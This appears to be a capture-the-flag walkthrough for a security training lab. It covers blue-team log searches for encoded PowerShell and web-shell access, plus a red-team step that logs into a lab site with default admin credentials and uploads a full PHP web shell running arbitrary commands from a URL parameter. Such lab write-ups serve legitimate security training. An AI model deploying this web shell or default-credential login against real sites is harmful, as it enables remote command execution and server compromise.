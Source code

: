 * Select fields `event.category` and `process.command_line`
* Search/Filter by `event.category = process`
* Check `powershell.exe` executions with a `-EncodedCommand` value
* Put that value in [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)')&input=U1FCdUFITUFkQUJoQUd3QWJBQXRBRmNBYVFCdUFHUUFid0IzQUhNQVZRQndBR1FBWVFCMEFHVUFJQUF0QUVFQVl3QmpBR1VBY0FCMEFFRUFiQUJzQUNBQUxRQkJBSFVBZEFCdkFGSUFaUUJpQUc4QWJ3QjBBQT09)

## Day 3: Log analysis - Even if I wanted to go, their vulnerabilities wouldn't allow it

**BLUE: Where was the web shell uploaded to?**
**BLUE: What IP address accessed the web shell?**

* Select index `frostypines-resorts`
* Select events between `Oct 3, 2024 @ 11:30:00.000` and `Oct 3, 2024 @ 12:00:00.000`
* Select fields `clientip` and `request`
* Search by `message: "shell.php"`
* Select the IP that executes suspicious commands (query parameter `command`)

**RED: What is the contents of the flag.txt?**

* Execute `sudo echo "10.101.200.8 frostypines.thm" >> /etc/hosts`
* Go to http://frostypines.thm/login.php and login as user `admin@frostypines.thm` and password `admin`
* Go to http://frostypines.thm/admin/add_room.php and create a new room uploading `shell.php` as its image:
  ```html
    <html>
        <body>
            <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
                <input type="text" name="command" autofocus id="command" size="50">
                <input type="submit" value="Execute">
            </form>
            <pre>
            <?php
                if(isset($_GET['command'])) 
                {
                    system($_GET['command'] . ' 2>&1'); 
                }
            ?>
            </pre>
        </body>
    </html>
  ```
* Go to http://frostypines.thm/media/images/rooms/shell.php?command=ls
* Go to http://frostypines.thm/media/images/rooms/shell.php?command=cat%20flag.txt

## Day 4: Atomic Red Team - I’m all atomic inside!

**What was the flag found in the .txt file that is found in the same directory as the PhishingAttachment.xslm artefact?**
